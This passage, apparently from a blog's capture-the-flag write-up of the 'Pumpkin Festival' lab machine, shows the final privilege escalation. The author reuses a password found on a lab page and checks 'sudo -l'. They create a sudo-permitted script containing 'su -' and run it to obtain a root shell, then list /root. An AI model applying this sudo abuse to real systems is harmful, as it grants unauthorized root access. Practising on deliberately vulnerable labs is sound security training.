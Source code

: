````
This program is free software; you can redistribute it and/or modify
[...]
````

Not bad, that was a very well hidden token number 10!

Since I got Jack's password from the page http://pumpkins.local/readme.html, I tried `sudo -l`. Maybe he can do something as root.

![Image](/img/PumpkinFestival-Screenshot-18.png)

Neither the directory nor the file existed at this point in time, so I have a free hand what I create there.

Due to the advanced time and the smell of a root shell in the air, I was quite uncreative here:

````
jack@pumpkin:~$ mkdir pumpkins
jack@pumpkin:~$ cd pumpkins/
jack@pumpkin:~/pumpkins$ nano alohomora
jack@pumpkin:~/pumpkins$ cat alohomora 
#!/bin/sh
echo "Alohomora!"
su -
jack@pumpkin:~/pumpkins$ chmod +x alohomora
jack@pumpkin:~/pumpkins$ sudo ./alohomora 
Alohomora!
root@pumpkin:~# 
````

## Root-Shell :)

Securing the ticket was a pice of cake now.

I find it interesting that in the end I didn't need one of the tokens. But very satisfying that I found them all!

````
root@pumpkin:~# cd /root/
root@pumpkin:~# ls -la
total 36
drwx------  3 root root 4096 Jul 16  2019 .
drwxr-xr-x 22 root root 4096 Jul 12  2019 ..
-rw-r--r--  1 root root   55 Jul 15  2019 .bash_logout
-rw-r--r--  1 root root 3106 Feb 20  2014 .bashrc
drwx------  2 root root 4096 Jul 12  2019 .cache
-rw-------  1 root root  369 Jul 13  2019 .mysql_history
-rw-------  1 root root   89 Jul 16  2019 .nano_history
-rw-r--r--  1 root root  140 Feb 20  2014 .profile
-rw-r--r--  1 root root 1688 Jul 15  2019 PumpkinFestival_Ticket
````
![Image](/img/PumpkinFestival-Screenshot-20.png)

I really liked the series and it was tricky in some places!
Can be recommended without restriction! :)

Thanks for reading and happy pwning!

Contact -> [Twitter](https://twitter.com/_the_someone)
